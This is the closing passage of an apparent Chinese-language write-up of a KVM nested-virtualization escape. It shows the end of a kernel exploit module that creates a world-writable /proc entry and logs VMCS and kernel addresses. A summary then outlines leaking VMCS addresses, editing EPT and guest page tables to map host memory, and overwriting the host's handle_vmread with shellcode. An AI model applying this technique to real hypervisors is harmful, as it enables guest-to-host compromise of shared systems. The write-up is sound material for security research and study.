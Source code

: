 ```c
    pr_info("[exp]: vmptrld_pa %llx", vmptrld_page_pa);

    pr_info("page_offset_base: %lx\n", page_offset_base);

    new = proc_create("exp", 0777, NULL, &fops);
    pr_info("[exp]: init\n");
    return 0;
}

static void __exit proc_exit(void)
{
    remove_proc_entry("exp", NULL);
    pr_info("exp: exit\n");
}

module_init(proc_init);
module_exit(proc_exit);

MODULE_LICENSE("GPL");
MODULE_AUTHOR("zolutal");
MODULE_DESCRIPTION("bleh");
MODULE_VERSION("0.1");
```

总结
==

首先通过任意相对某个object能够读写，我们通过源码知道其他object特征可以泄露虚拟机的VMCS的偏移，然后再通过next\_vmx结构体特征扫描得到偏移，进而泄露处嵌套虚拟机的VMCS的在主机的虚拟地址，进而知道露虚拟机的VMCS的在主机的虚拟地址。然后得到虚拟机的VMCS机构中的EPTP，进而去往虚拟机的EPT表中的第三级表加入表项和根据CR3往虚拟机页表的第三级表加入表项进而使得虚拟机的的虚拟地址映射到主机的目标物理地址，然后访问虚拟机的的虚拟地址扫描找到主机的handle\_vmread函数，进而覆盖shellcode